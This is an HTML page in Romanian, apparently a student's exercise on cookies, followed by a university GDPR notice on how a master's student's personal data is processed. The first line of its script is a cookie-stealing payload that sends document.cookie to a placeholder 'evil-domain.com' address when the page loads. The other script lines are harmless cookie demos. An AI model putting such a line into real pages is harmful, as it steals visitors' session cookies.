 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = navigator.appCodeName;
document.cookie = navigator.appVersion;  

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
  <br>
<b><i>Nota de informare cu privire la procesarea datelor cu caracter personal a unui student la Univ Tehnica din Cluj Napoca, masterul de eActivitati, care are inclus si un stagiu de mobilitate Erasmus in UK:</i></b>
Conform regulamentului UE 679/2016, UTCN este un operator de date.
Date de contact UTCN: Str. C-tin Daicoviciu, nr. 15, sala , 400020 Cluj Napoca, Romania
Telefon: 0264-401.309
E-mail: Date.Personale@staff.utcluj.ro
Colectam/prelucram datele dumneavoastra
-in cursul admiterii, prin formular, iar apoi ca si studenti (masteranzi)
-informatiile folosite:
•	Nume, prenume
•	Adresa
•	CNP
•	Email
•	IBAN
•	Adeverinta medicala

-informatii folosite pentru:
•	gestionarea studentilor
•	cazari camine
•	transmitere informatii prin email
•	preluare burse
•	decontare de abonamente
-destinatari ai datelor cu caracter personal:
•	Facultatea.... care este gazda stagiului Erasmus in UK
•	Ministerul Educaţiei Naţionale, Ministerul Tineretului și Sportului;
•	Instituţii publice: CASMB, Autorităţi locale, Poliţia Română șamd;
•	Alte instituții de învătământ superior naţionale sau internaţionale;
•	Instituții naţionale sau europene ce finanțează proiecte de cercetare;
•	Organizații comerciale: bancare, unităţi de cazare, unităţi alimentare șamd;
•	Asociații sau societăți ale studenților;
•	Furnizori servicii IT

-drepturi:
•	dreptul la informare. Aveți dreptul să primiți informații despre cum și de ce prelucrăm datele dumneavoastră personale;
•	dreptul de retragere a consimţământului, în cazul în care prelucrarea se bazează pe articolul 6(1)a sau pe articolul 9(2)a;
•	dreptul de a obţine din partea Universitaţii o confirmare că se prelucrează sau nu date cu caracter personal care vă privesc şi, în caz afirmativ, acces la datele respective;
•	dreptul de rectificare a datelor cu caracter personal care vă privesc;
•	dreptul de ştergere a datelor cu caracter personal care vă privesc sau de restricţionare a prelucrării, sub rezerva anumitor excepții;
•	dreptul la portabilitatea datelor, dacă prelucrarea se bazează pe consimţământ în temeiul articolului 6(1)a, sau pe articolului 9(2)a, sau pe un contract în temeiul articolului 6(1)b;
•	dreptul de a vă opune prelucrărilor, sub rezerva anumitor excepții.
-locatia si durata de stocare: Datele cu caracter personal colectate sunt stocate centralizat în spaţii și pe echipamente situate în cadrul Universitaţii Tehnice din Cluj-Napoca. Datele pot fi stocate și la nivel local de către personalul facultăţilor, în e-mail-uri, în documente electronice stocate pe diferite echipamente sau pe documente în format hârtie. Durata de stocare pentru fiecare categorie de date cu caracter personal este în conformitate cu cerinţele legale, cu reglementările interne ale Universitaţii și a celor mai bune practici din acest domeniu.

</body>
